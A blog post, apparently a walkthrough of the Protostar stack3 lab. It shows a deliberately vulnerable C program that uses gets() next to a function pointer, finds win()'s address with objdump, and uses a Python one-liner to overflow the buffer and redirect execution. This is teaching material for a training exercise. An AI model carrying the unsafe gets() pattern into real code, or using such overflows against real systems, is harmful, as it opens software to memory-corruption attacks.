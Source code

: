 ```yaml
---
layout: post
title: "Redirecting Control Flow To Specific Address: protostar stack3"
date: 2018-10-23 16:02:45 -700
categories: jekyll update
---
```


#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

Here we have a function outside of the main() called win() and in the main we have a blank function pointer within main, conveniently located right after the end of a buffer. 

If you are not familiar with how a c program runs, the code contained in the main() will be executed, and other functions outside of it are typically called within main. Since the function win() is never called by main(), it will never execute. Unless you are a hacker. 

The basic idea is the same for this program, we will overflow the buffer and write whatever we want to the fp() pointer. In this case, we need to write the address of the win() function.

There are many ways to get the address of the main function including using a debugger like GDB (a tool I use a lot), but for the sake of simplicity, I will show how to find this address using a command called objdump.

objdump has many uses, but for our purpose we should run it with the -S flag, in order to get the source, which will contain memory addresses of functions. We can also use grep to give us only the win() address.

$objdump -S stack3 | grep win

08048424 <win>:

$

Now we have the address.

$python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3

calling function at 0x08048424
code flow successfully changed

Cool. We have changed the code flow to a specific part of memory. This is a very useful tactic, which will be expanded upon in later challenges. 